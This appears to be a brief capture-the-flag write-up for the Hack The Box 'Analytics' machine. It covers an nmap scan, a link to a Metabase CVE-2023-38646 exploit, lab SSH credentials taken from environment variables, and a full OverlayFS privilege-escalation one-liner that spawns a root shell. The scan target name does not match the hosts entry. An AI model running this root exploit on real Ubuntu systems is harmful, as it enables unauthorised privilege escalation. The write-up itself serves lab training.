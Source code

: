 # Introduction
![image](https://github.com/Mate0r/app.hackthebock.com/assets/94843357/75b410be-4ccb-49d4-9b25-44ab30a983f0)

# Nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx analytics.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# user.txt

## HTTP (port 80)

bootstrap metabase : 	"v0.46.6"

https://github.com/robotmikhro/CVE-2023-38646

in env variables, id to ssh
metalytics
An4lytics_ds20223#

# root.txt

https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'


https://www.hackthebox.com/achievement/machine/458711/569

